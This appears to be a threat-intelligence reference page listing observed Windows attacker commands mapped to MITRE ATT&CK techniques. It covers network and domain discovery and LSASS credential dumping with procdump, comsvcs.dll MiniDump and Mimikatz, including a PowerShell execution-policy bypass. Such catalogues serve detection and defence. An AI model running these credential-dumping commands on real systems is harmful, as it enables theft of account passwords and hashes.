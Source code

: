 Remote System Discovery [[T1018](https://attack.mitre.org/techniques/T1018/)]

```
cmd /c wmic product get name
dir \\<ip>\c$\windows\system32\tasks
ping.exe <domain_name>
ping.exe <ip_address>
```

```
(&(&(&(objectClass=Computer)(dnshostname=*))(operatingsystem=*))(servicePrincipalName=*))
```
<br>

Network Share Discovery [[T1135](https://attack.mitre.org/techniques/T1135/)]

```
cmd.exe /C net group "domain admins" /domain"
cmd.exe /C net group /d
```
<br>

Permission Groups Discovery [[T1069](https://attack.mitre.org/techniques/T1069/)]

```
net group "domain computers" /do
```
<br>

Domain Trust Discovery [[T1482](https://attack.mitre.org/techniques/T1482/)]

```
nltest /dclists
nltest /domain_trusts
nltest /dclist:<domain>
```
<br>

OS Credential Dumping: LSASS Memory [[T1003.001](https://attack.mitre.org/techniques/T1003/001/)]

```
procdump.exe -accepteula -ma lsass.exe С:\Windows\Temp\mem.dmp
procdump.exe -accepteula -ma lsass.exe C:\Windows\Temp\mem.dmp
$system32\cmd.exe /C tasklist /svc | findstr lsass
rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\windows\temp\lsass.dmp full
```
<br>

OS Credential Dumping: MimiKatz [[T1003.001](https://attack.mitre.org/techniques/T1003/001/)]

```
С:\Windows\System32\logfiles\msdol.exe privilege::debug sekurlsa::logonpasswords exit
sekurlsa::Minidump lsassdump.dmp
C:\Windows\system32\cmd.exe /C mimikatz.exe privilege::debug sekurlsa::logonPasswords full samdump::hashes exit > "c:\pathtooutfile\*.txt"
C:\Windows\system32\cmd.exe powershell -ep bypass -C "import-module .\katz.ps1;Invoke-Katz" > *.txt
```
<br>
